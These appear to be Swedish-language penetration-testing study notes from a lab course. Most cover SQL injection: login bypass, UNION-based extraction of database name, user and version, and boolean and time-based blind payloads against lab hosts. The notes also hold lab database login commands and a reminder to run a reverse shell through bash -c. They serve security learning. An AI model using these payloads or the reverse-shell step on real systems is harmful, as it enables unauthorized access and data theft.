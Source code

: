 - Kan behöva komma ett " innan separators, alternativt att hela injektionen i parametern är inom ""
- Glöm inte bash -c "revshell" för att koden faktiskt ska exekveras

-------------

### SQL Injection

Basic query:
```sql
SELECT * FROM users WHERE user='admin'
```

Common Injection:
```sql
SELECT * FROM users WHERE user='admin' OR 1=1 -- //
```

Database variants:
- MySQL: 
```bash
mysql -u root -p'root' -h 192.168.195.16 -P 3306
---
show databases;
```
- MSSQL:
```bash
impacket-mssqlclient Administrator:Lab123@192.168.195.18 -windows-auth
---
SELECT name FROM sys.databases;
```

Error-based payloads:
- Läcka känslig informaiton och data genom felmeddelanden
- Ex. bypassa inloggningssida

Union-based payloads:
- Använder UNION för att kombinera/manipulera redan befintliga querys med malicious
- Den injecerade queryn måste inkludera lika många kolumner som originalqueryn
- Datatypen måste också vara kompatibel mellan dem
Metod:
1. Enumerera antalet kolumner genom:
```
' ORDER BY 1-- //
```
2. Öka med ett tills att något inte funkar/kolumnen inte finns. Typ så här:![Pasted image 20230704144150.png](/img/user/IMAGES/Pasted%20image%2020230704144150.png)
3. Spotta ut datan du vill ha i den injecerade queryn genom SELECT och skriv null om du inte behöver alla kolumner. Exempel:
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
Viktigt:
- Kör in % innan SQL-injektionen för att skicka ett wildcard till servern så den får någon form av input, kan behövas

Blind SQL injections:
- Till skillnad från error-based saknas output vilket kan verifiera om injektionen fungerar.
- Boolean-based:
	- Använder AND 1=1 för att konfirmera och enumerera annan data i databasen. Om får ut resultat kommer alltså queryn stämma. Exempel:
```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```
- Time-based:
	- Använder sleep-funktionen i SQL för att konfirmera på samma sätt. Exempel:
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
# Förklaring: första item i if-funktionen är operationen, sen kommer om true och om false. Alltså om användare är offsec och 1=1 då sleep -- annars ej.
```